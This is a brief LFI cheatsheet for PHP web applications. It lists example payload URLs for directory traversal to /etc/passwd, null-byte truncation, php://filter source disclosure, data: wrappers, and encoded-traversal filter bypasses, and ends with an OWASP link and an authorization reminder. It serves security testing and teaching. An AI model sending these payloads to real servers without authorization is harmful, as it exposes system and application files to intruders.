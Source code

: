 # Local File Inclusion (LFI) Cheatsheet

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include and read local files on a web server. This cheatsheet provides an overview of LFI techniques and examples.

## LFI Techniques

1. **Basic LFI:**
   - Including local files by specifying their relative or absolute paths.
   - Example: `http://example.com/index.php?page=../../etc/passwd`

2. **Null Byte Poisoning:**
   - Exploiting null byte termination to bypass file extension restrictions.
   - Example: `http://example.com/index.php?page=../../etc/passwd%00.jpg`

3. **PHP Wrappers:**
   - Utilizing PHP wrappers to include and read files.
   - Example: `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`

4. **Data/Expect Protocol:**
   - Using the data or expect protocol to include file content.
   - Example: `http://example.com/index.php?page=data:text/plain;base64,SGVsbG8gV29ybGQ=`

## LFI Bypass Techniques

1. **Path Traversal:**
   - Escaping directory traversal filters by using encoding or alternate directory separators.
   - Example: `http://example.com/index.php?page=..%2f..%2fetc%2fpasswd`

2. **Double URL Encoding:**
   - Bypassing input filters by double URL encoding special characters.
   - Example: `http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd`

3. **Null Byte Injection:**
   - Appending null byte (%00) to terminate file name and bypass file extension checks.
   - Example: `http://example.com/index.php?page=../../etc/passwd%00.jpg`

## Additional Resources

- OWASP Testing for Local File Inclusion: [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Local_File_Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Local_File_Inclusion)

Remember to always perform LFI attacks responsibly and with proper authorization. Unauthorized usage or exploiting vulnerabilities without permission is strictly prohibited.
